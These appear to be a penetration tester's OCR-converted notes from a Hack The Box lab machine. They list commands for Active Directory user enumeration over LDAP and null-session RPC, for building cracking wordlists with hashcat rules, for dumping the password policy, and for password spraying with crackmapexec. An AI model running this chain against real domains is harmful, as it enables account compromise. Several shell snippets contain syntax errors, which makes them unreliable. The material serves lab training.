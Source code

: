 `ldapsearch -h 10.10.10.161 -x -b "DC=htb,DC=local '(objectClass=User)' sAMAccountName | grep sAMAccountName | awk '{print $2}' > userlist.ldap`

Deleted the following users:
- requesting, guest, usernames beginning with $, usernames beginning with SM and HealthMailBox
Final list of users:
![[Pasted image 20241211183751.png]]
Creating a wordlist for password cracking
![[Pasted image 20241211184007.png]]
Adding years to passwords
`for i in $(cat pwlist.txt); do echo $i; echo $(i)2019; echo $(i)2020; done > t`
`mv t pwlist.txt`
Password list generation with #hashcat 
`hashcat --force --stdout pwlist.txt -r /usr/share/hashcat/rules/best64.rule`
Also add exclamation point
`for i in $(cat pwlist.txt); do echo $i; echo $(i)\!; done > t
Chain wordlists using #hashcat 
`hashcat --force --stdout pwlist.txt -r /usr/share/hashcat/rules/best64.rule -r /usr/share/hashcat/rules/toggles1.rule`

Using CrackMapExec to dump the password policy of Active Directory using a null authentication, then doing a Password Spray

`crackmapexec smb 10.10.10.161 --pass-pol -u '' -p ''`
![[Pasted image 20241211185533.png]]
Viewing password policy to check that "Account lockout threshold: 0" which means we can brute force 

Enumerating information out of AD using rpcclient and null authentication

`rpcclient -U '' 10.10.10.161`
![[Pasted image 20241211185940.png]]

`>enumdomusers`
![[Pasted image 20241211190109.png]]
Discovered new user this way: `svc-alfresco`
`>queryusergroups <rid # of user>`
![[Pasted image 20241211190417.png]]
`>querygroup 0x201`
![[Pasted image 20241211190551.png]]
Domain user
![[Pasted image 20241211190634.png]]
Service account

Password spraying using #crackmapexec

`crackmapexec smb 10.10.10.161 -u userlist.out -p pwlist.txt `

Look at #impacket scripts to try

`locate impacket | grep example`
